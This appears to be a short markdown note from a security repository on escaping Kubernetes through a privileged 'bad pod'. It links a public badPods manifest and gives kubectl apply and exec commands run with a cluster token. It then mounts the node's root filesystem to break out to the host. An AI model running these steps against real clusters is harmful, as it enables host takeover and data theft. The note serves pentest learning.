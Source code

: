 ## Example:

### If we have admin access to the cluster, we can create any resources we Want.

### We can create a "bad" pod that mounts the node's file system.

## EVERYTHING-ALLOWED-EXEC-POD: https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml

## STEPS:

#### 1) Pull a container image (minikube's local docker registry) 

#### 2) kubectl apply -f BAD_POD.yml --token={TOKEN} (Create the "bad" pod for privesc)

#### 3) kubectl get pods --token={TOKEN}

#### 4) kubectl exec -it BAD_POD --token={TOKEN} -- /bin/bash

## Breakout of the Kubernetes environment

### After we created an ran our malicious pod, we can escape the Kubernetes environment by mounting the file system to the /tmp directory (example)

#### 1) mount /dev/root /tmp

#### 2) cd /tmp

#### 3) GGWP!
